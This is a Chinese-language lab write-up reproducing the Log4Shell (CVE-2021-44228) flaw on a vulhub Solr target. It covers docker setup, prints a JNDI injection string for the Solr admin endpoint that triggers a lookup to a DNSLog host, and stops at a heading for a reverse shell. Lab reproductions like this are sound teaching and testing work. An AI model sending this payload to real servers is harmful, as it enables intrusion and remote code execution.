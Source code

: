 ****  
**0x3 漏洞复现**  
##   
### 一、环境搭建  
  
靶机：Ubantu IP 192.168.103.161 （先要安装docker，然后下载vulhub） 启动vulhub里面的log4j环境  
  
攻击机：kali IP 192.168.103.129  
  
我们先进入/vulhub/log4j/CVE-2021-44228目录下，然后利用docker启动靶机环境  
```
docker-compose up -d
```  
```


```  
  
查看靶机的端口情况，发现靶机的端口为8983  
```
docker ps
```  
```


```  
  
  
访问我们的ubantu靶机的vulhub地址：192.168.103.162:8983/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOaamWib9icGZxuI9IicqIvEWwxDBYZlY1heohFLILXkM6AXgj2mb2RB1Ghg/640?wx_fmt=png&from=appmsg "")  
  
  
### 二、利用DNS漏洞检测  
  
用dnslog平台检测dns回显，看看有没有漏洞存在，网址为：  
DNSLog Platform  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOaZ5CmYhW2cHB6YV2JaicOyJXckTJ8PxHs79WpcCic78050LKcjvDNsBaQ/640?wx_fmt=png&from=appmsg "")  
  
  
点击Get SubDomin获取一个子域名，我这里是ozuyfo.dnslog.cn  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOa1jN9aiafXKQIqJnLe7yP5EDD9qy6EhGTEpTibrlLaYLPY12AP8QQ1MJQ/640?wx_fmt=png&from=appmsg "")  
  
```
找到JNDI的注入点在/solr/admin/cores?action=${jndi:ldap://ozuyfo.dnslog.cn}
其中ozuyfo.dnslog.cn是DNSlog的地址，用来检测是否有log4j漏洞的。
```  
  
点击Refresh Record刷新平台，然后就会看到下面的回显，说明存在log4j漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOaJhmXU4oH2S3ibALZa89iaqcFNROS8efgfgic70S7GC29bRibdIKdlN2GcA/640?wx_fmt=png&from=appmsg "")  
  
### 三、利用JNDI工具反弹shell  
  
我们直接利用JNDI注入工具进行反弹shell的复现操作  
  